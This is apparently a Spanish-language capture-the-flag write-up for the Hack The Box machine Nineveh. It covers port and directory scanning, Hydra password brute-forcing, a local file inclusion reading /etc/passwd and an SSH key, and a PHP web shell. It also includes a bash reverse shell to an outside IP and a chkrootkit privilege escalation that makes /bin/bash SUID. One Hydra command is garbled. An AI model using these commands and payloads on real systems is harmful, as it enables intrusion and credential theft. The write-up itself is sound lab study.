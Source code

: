 # Nineveh-htb

## NMAP 


```

 1100  sudo nmap -sS -T4 -p- --open -Pn -n 10.129.66.164 -oG ports
 1101  extractPorts ports
 1102  sudo nmap -sC -sV -p80,443 10.129.66.164 -oN Scan
 1103  sudo nmap --script "vuln and safe" -p80 10.129.66.164 -oN Scan80
 1104  sudo nmap --script "vuln and safe" -p443 10.129.66.164 -oN Scan80

```

## Dirbuster

Recuerda cuando tienes http y https se tiene que checar ambas.... son paginas separadas.

```
dirbuster -u https://nineveh.htb/ -t 200 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

## FFUF



```
ffuf -c -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://nineveh.htb/FUZZ 
ffuf -c -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://nineveh.htb/FUZZ 
```

## WFUZZ 

```
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://nineveh.htb/FUZZ

```

Encontramos varios directorios.

```
https

File found: /index.html - 200
Dir found: /icons/ - 403
Dir found: /db/ - 200
File found: /db/index.php - 200
Dir found: /icons/small/ - 403
File found: /icons/README.html - 200


http

/department
```

## Metadata

Siempre es buena idea en estas maquinas y en los CTF checar los metadatos ( y cubrir todas las posibilidades)

```
exiftool ninevehForAll.png
strings ninve.png -n 10
steghide info nineveh.png
```

## HTTPS

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/c652fdd8-8f61-4569-b626-ee382b8a2307)


Podemos usar la opcion de -I de curl para que nos diga las cabeceras sin embargo si se trabaja con https necesitamos la opcion -k

```
curl -I https://nineveh.htb/ -k

```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/0e7eb60f-fc11-4a9d-a50d-86133efa15a0)

## RCE

Con el firefox podemos sacar como se realiza un peticion post.

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/2f27a521-faab-41ed-843f-c1b4065e2ae8)

Ya que me parece que en el OSCP no se puede usar Burp Suite.

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/8c38e396-dec4-4eda-8b86-5b9ac07fe94e)

### Hydra 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.49.194  http-post-form "/department/login.php:username=a│    * FUZZ: YWRtaW46dGVzdAo=
dmin&password=^PASS^:Invalid" 
```
Si te das cuenta lo que cambia es el https en hydra mira  https-post-form.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.49.194  https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"

```


Sacamos algunos passwords para admin y el otro para phpLiteAdmin v1.9

```
php
 login: admin   password: password123

db
login: admin   password: 1q2w3e4r5t

```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/9d363814-3c40-4561-b111-2228c97af192)


### LFI

Ahi se ve que se podria aprobechar de que carga archivos solo hay que ver como. Una vez dentro podriamos y segun lo que se investigo crear una base de datos y pues hacer algo similar al posion log.

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

>https://github.com/chacka0101/exploits/blob/master/24044.txt

Para poder usar el LFI se usa apartir del punto.

```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes../../../../../../../etc/passwd
```

Rutas para LFI interesates enumerar via LFI:

```
/proc/net/tcp # Para listar puertos abiertos
cat ports.txt| awk -F":" '{print $3}' | awk '{print $1}' > ports2

hex_numeros = ["0050", "0016", "01BB", "0050", "0050"]

dec_numeros = [int(hex_num, 16) for hex_num in hex_numeros]

print(dec_numeros)

```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/bea2648a-70d7-4a54-8b54-37e568c4fdc0)

Ver la version del sistama operativo

```
/etc/os-release

Ver las interfaces

/proc/net/fib_trie

```

Puedes ver procesos que existen en la maquina con 

```
/proc/sched_debug
# Para ver una id_rsa

/home/amrois/.ssh/id_rsa
```


### knock.d


![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/acd827d6-fe5f-43fd-874c-dae7b3dc4d8b)


Este es el servicio que permite el port knocking si golpeas los puertos en un orden se abre o cierda un puerto

```
sudo apt install knockd  
/etc/knockd.conf

knockd 10.10.10.43 571:tcp 290:tcp 911:tcp
```

### Alternativo  (pero esta no es la manera buena de hacerlo)

Encontramos el directorio /secure_notes/ y ahi vemos si hay algo interensante. Y ahi tenemos ya una clave privada ya que logramos abrir el puerto 22 pues ya te conectas (la clave privada estaba en la imagen).

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/abd7d041-ba3f-4519-9852-c25b348e3b84)


Recuerda dale los permisos 600.

Ahora vamos a crear una base de datos con extencion .php y con el LFI llamarlo.

```
<?php system($_REQUEST["cmd"]); ?>
```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/1d5e03b8-9aff-443a-b57a-f8fd1c7262b0)


Recuerda poner %26 en lugar del & para que no de problemas
```
nineveh.htb/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/hack.php&cmd=bash -c "bash -i >&/dev/tcp/10.10.14.165/1234 0>&1"
```

Y listo tenemos la reverse shell. Algunas enumeraciones que se hicieron 

```
cat /etc/crontab
### Para ver las tareas que se van a ejecutar en los proximo min

systemctl list-timers
```

## Privilege Esca

Con las herramientas para ver procesos vemos que se esta ejecutando el /usr/bin/chkrootkit. esto premite encontrar rootkits conocidos.

```
searchsploit chkrootkit
```

Esto tiene la vulnerabilidad de que ejecuta en /tmp update crea un script para hacer SUID la /bin/bash. Primero hacemo una full tty.

```
script /dev/null -c bash
CTRL + Z
#stty -echo raw;fg
             reset
xtem
export TERM=xterm
export SHELL=/bin/bash
nano update


#!/bin/bash

chmod u+s /bin/bash
```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/130d1dd8-4c00-4437-8db0-c402a35011d5)

Y para que veamos el contenido de manage.php el cual tenia un white list:

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/f29b3938-0ef0-4c19-ad3e-83e3b1a9ce8d)

Que nos dice chatgtp

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/2d47477d-45b7-45b9-b7f5-a8e5ad5c6037)

FIN

